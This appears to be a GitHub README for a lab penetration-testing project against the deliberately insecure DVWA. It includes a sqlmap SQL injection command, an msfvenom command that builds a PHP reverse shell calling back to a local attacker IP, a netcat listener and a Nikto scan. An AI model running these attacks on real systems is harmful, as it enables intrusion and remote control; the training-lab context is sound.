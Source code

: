 # DVWA Vulnerability Assessment

This project documents the process of identifying and exploiting various vulnerabilities in the **Damn Vulnerable Web Application (DVWA)**, a deliberately insecure web application designed for practicing penetration testing techniques.

---

## **Table of Contents**
1. [Project Overview](#project-overview)
2. [Setup](#setup)
   - [Installing DVWA Using Docker](#installing-dvwa-using-docker)
3. [Vulnerabilities Explored](#vulnerabilities-explored)
   - [1. SQL Injection](#1-sql-injection)
   - [2. File Upload Vulnerability](#2-file-upload-vulnerability)
   - [3. General Vulnerability Testing Using Nikto](#3-general-vulnerability-testing-using-nikto)
4. [Tools Used](#tools-used)
5. [Screenshots](#screenshots)
6. [Writeups](#writeups)
   - [SQL Injection Writeup](CEH-Projects/dvwa-assessment/writeups/sql-injection.md)
   - [File Upload Vulnerability Writeup](file-upload.md)

---

## **Project Overview**
The goal of this project is to demonstrate practical penetration testing skills by:
1. Setting up a DVWA instance using Docker.
2. Exploring and exploiting vulnerabilities in the application, including SQL Injection and File Upload vulnerabilities.
3. Using tools such as `sqlmap`, `Nikto`, and `msfvenom` to perform the assessment.
4. Providing detailed documentation for each vulnerability with remediation suggestions.

---

## **Setup**

### Installing DVWA Using Docker
The following steps were performed to set up DVWA using Docker:

1. **Start and Enable Docker**:
   ```bash
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

2. **Pull DVWA Docker Image**:
   ```bash
   sudo docker pull vulnerables/web-dvwa
   ```

3. **Run DVWA**:
   ```bash
   sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
   ```

Refer to the screenshot below for the commands executed:
![Installing DVWA Using Docker](https://github.com/user-attachments/assets/2b7ba66e-c526-4b87-8d1e-35932f432ab4)
<p align="center">Installing DVWA Using Docker </p>

4. Access the application at `http://127.0.0.1` and set the **security level to Low**.

---

## **Vulnerabilities Explored**

### 1. SQL Injection
- **Objective**: Exploit the SQL Injection vulnerability to extract sensitive information.
- **Steps**:
  1. Navigated to the **SQL Injection** module in DVWA.
  2. Used `sqlmap` to automate the exploitation.
     ```bash
     sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit" \
            --cookie="PHPSESSID=<SESSION_ID>; security=low" --dbs
     ```
  3. Successfully enumerated the databases and confirmed the application is vulnerable.

For a detailed writeup, see: [SQL Injection Writeup](sql-injection.md)

---

### 2. File Upload Vulnerability
- **Objective**: Exploit the File Upload vulnerability to upload a malicious PHP payload.
- **Steps**:
  1. Used `msfvenom` to create a reverse shell payload:
     ```bash
     msfvenom -p php/reverse_php LHOST=192.168.191.128 LPORT=4444 -f raw > shell.php
     ```
  2. Uploaded the payload via the File Upload module.
  3. Triggered the payload and successfully established a reverse shell using Netcat:
     ```bash
     nc -lvnp 4444
     ```
For a detailed writeup, see: [File Upload Vulnerability Writeup](file-upload.md)

---

### 3. General Vulnerability Testing Using Nikto
- **Objective**: Scan for general vulnerabilities using `Nikto`.
- **Steps**:
  1. Ran a `Nikto` scan on the application:
     ```bash
     nikto -h http://127.0.0.1
     ```
  2. Identified issues such as outdated Apache version and missing security headers.

---

## **Tools Used**
1. **Docker**: For running the DVWA container.
2. **Nikto**: To scan for general web application vulnerabilities.
3. **Sqlmap**: To automate SQL Injection attacks.
4. **Msfvenom**: For generating a malicious PHP reverse shell payload.
5. **Netcat**: For establishing a reverse shell connection.

---

## **Screenshots**

  ![SQLmap Command Execution](https://github.com/user-attachments/assets/9be88cbf-7e4f-45ee-8f6d-942268c6ecfd)
  <p align="center"> SQLmap Command Execution </p>
   
   ![SQLmap Results](https://github.com/user-attachments/assets/2ea824fc-d18e-43b7-8d4c-1dc6347768e2)
  <p align="center"> SQLmap Results </p>

   ![Nikto Scan Results](https://github.com/user-attachments/assets/c5d334f2-ca77-47e4-97e0-f3206880479c)
  <p align="center"> Nikto Scan Results </p>

   ![Reverse Shell Connection](https://github.com/user-attachments/assets/3dc931c8-7e55-4e63-aa7d-3310bcc36991)
  <p align="center"> Reverse Shell Connection </p>

---

## **Writeups**

- [SQL Injection Writeup](sql-injection.md)
- [File Upload Vulnerability Writeup](file-upload.md)
- [Nikto Scan Writeup](nikto-scan.md)

Refer to individual writeups for detailed steps, analysis, and mitigation suggestions.

